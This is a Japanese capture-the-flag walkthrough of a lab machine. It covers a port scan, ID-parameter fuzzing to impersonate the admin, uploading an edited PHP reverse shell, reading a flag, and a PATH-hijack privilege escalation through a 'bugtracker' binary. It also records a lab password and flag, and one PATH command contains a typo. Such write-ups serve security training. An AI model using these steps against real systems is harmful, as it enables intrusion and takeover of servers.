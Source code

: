 # 1.Port Scan 
対象マシンのポートをスキャン
ip=10.129.250.6
`nmap -sC -sV $ip`

![45d47843cf0fb8616a8edcb162087940.png](../_resources/45d47843cf0fb8616a8edcb162087940.png)

# 2.Burp Suite

## Local Proxy
対象HPに接続
http://$ip/

![ba7bed9861212273b386f7897f470797.png](../_resources/ba7bed9861212273b386f7897f470797.png)

login用ページと思われるディレクトリを発見
![a5827a020d78d0729156353852591dd6.png](../_resources/a5827a020d78d0729156353852591dd6.png)

## Guest login
ゲストでログイン

![8f22d7efb189df67c1aa8a7813b79e37.png](../_resources/8f22d7efb189df67c1aa8a7813b79e37.png)

![7a15c188f29c929e9aa04c8dc9592a45.png](../_resources/7a15c188f29c929e9aa04c8dc9592a45.png)

ログインページのパケットを傍受

![50060c167b817853f9591ce6145a313e.png](../_resources/50060c167b817853f9591ce6145a313e.png)

# 3.Fuzzing
## admin info
右図赤枠の箇所でファジングを実施

![d632620577c6476d0c97e392a316067d.png](../_resources/d632620577c6476d0c97e392a316067d.png)

ID=1がadminであることを確認

![c3415e527202f0309347b802d9ed8978.png](../_resources/c3415e527202f0309347b802d9ed8978.png)


## Revers shell
下図赤枠内パラメータをアドミンの物に変更

![ba2b093e44d88550f531741c9934726a.png](../_resources/ba2b093e44d88550f531741c9934726a.png)

管理者用アップローダーへ接続

![b98b35d67e41d1f98923d4cca1687b47.png](../_resources/b98b35d67e41d1f98923d4cca1687b47.png)

kaliのデフォルトについてるリバースシェルの下図赤枠内を変更
`sudo vim /usr/share/webshells/php/php-reverse-shell.php`

![3dcab1c5508c1bf63101c022bbd47bd7.png](../_resources/3dcab1c5508c1bf63101c022bbd47bd7.png)

変更したものをアップロード

![77b8ae2afd72cc4f016531e50a643af3.png](../_resources/77b8ae2afd72cc4f016531e50a643af3.png)

アップロードしたものをgobusterで確認。

![6bcdd8fe55f595fa01cd68931123965f.png](../_resources/6bcdd8fe55f595fa01cd68931123965f.png)


![f62c2cd0941e9c9da144bc0d25034347.png](../_resources/f62c2cd0941e9c9da144bc0d25034347.png)

# 5. Use flag Get
サーバ内のuser.txtを検索

$ find / -name *user.txt* 2> /dev/null
$ cd /home/robert/
$ ls
$ cat user.txt

![0edfe3217b29b18377779dfc17ba6397.png](../_resources/0edfe3217b29b18377779dfc17ba6397.png)

root.txtがあると思われるディレクリを発見したが権限が無い為アクセスできない。

![9c8e26e622039954556ee5c91fc490cf.png](../_resources/9c8e26e622039954556ee5c91fc490cf.png)

user.txt
f2c74ee8db7983851ab2a96a44eb7981
M3g4C0rpUs3r!
db.php内のユーザ情報を取得

![3addcc654d858a5d6e304b64fba7629f.png](../_resources/3addcc654d858a5d6e304b64fba7629f.png)


# 6.SSH connect
 `ssh robert@$ip`
 
 SSHを使いrobertユーザで接続
 
 ![390a02dd703ddf2bc96b56b66b8e4849.png](../_resources/390a02dd703ddf2bc96b56b66b8e4849.png)

権限昇格に使用できると思われるツールを発見

![54ea79e33302eb51168b56b83b5b19ab.png](../_resources/54ea79e33302eb51168b56b83b5b19ab.png)

Bug Trackerは/root/reportsディレクリ内にcatを使用することを確認
![f5982646e76314fb6222c9e8a0486f5e.png](../_resources/f5982646e76314fb6222c9e8a0486f5e.png)

catに"bin/sh"を入れrootまでのパスを設定する
$ cd /tmp
$ echo "/bin/sh" > cat
$ chmod +x cat  
$ export PATH/tmp:PATH
$ echo PATH
$ bugtracker

![0804246115a2505a54b5914b879cab38.png](../_resources/0804246115a2505a54b5914b879cab38.png)